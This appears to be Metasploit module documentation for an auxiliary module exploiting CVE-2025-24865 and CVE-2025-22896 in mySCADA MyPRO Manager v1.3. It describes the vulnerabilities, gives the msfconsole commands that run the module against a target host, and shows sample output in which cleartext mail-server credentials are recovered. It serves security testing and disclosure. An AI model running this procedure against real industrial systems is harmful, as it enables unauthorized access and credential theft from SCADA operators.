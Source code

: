 ## Vulnerable Application

**Vulnerability Description**

This module exploits two vulnerabilities (CVE-2025-24865 & CVE-2025-22896) in mySCADA MyPRO Manager <= v1.3 to retrieve the configured
credentials for the mail server.

The administrative web interface has certain features where credentials are required to be accessed, but the implementation is flawed,
allowing to bypass the requirement. Other important administrative features do not require credentials at all, allowing an unauthenticated
remote attacker to perform privileged actions. These issues are tracked through CVE-2025-24865.
Another vulnerability, tracked through CVE-2025-22896, is related to the cleartext storage of various credentials by the application.

One way how these issues can be exploited is to allow an unauthenticated remote attacker to retrieve the cleartext credentials of the mail
server that is configured by the product, which this module does.

Versions <= 1.3 are affected. CISA published [ICSA-25-044-16](https://www.cisa.gov/news-events/ics-advisories/icsa-25-044-16) to cover
the security issues.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](https://www.myscada.org/mypro/).

**Successfully tested on**

- mySCADA MyPRO Manager 1.3 on Windows 11 (22H2)

## Verification Steps

1. Install the application
2. After installation, reboot the system and wait some time until a runtime (e.g., 9.2.1) has been fetched and installed.
3. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/admin/scada/mypro_mgr_creds 
msf auxiliary(admin/scada/mypro_mgr_creds) > set RHOSTS <IP>
msf auxiliary(admin/scada/mypro_mgr_creds) > run 
```

## Scenarios

Running the module against MyPRO Manager v1.3 on Windows 11, should result in an output similar to the
following:

```
msf auxiliary(admin/scada/mypro_mgr_creds) > run
[*] Running module against 192.168.1.78

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Mail server credentials retrieved:
[+] Host: smtp.example.com
[+] Port: 993
[+] Auth Type: login
[+] User: user
[+] Password: SuperS3cr3t!
[*] Auxiliary module execution completed
msf auxiliary(admin/scada/mypro_mgr_creds) > creds
Credentials
===========

host          origin        service           public  private       realm  private_type  JtR Format  cracked_password
----          ------        -------           ------  -------       -----  ------------  ----------  ----------------
192.168.1.78  192.168.1.78  34022/tcp (http)  user    SuperS3cr3t!         Password
```
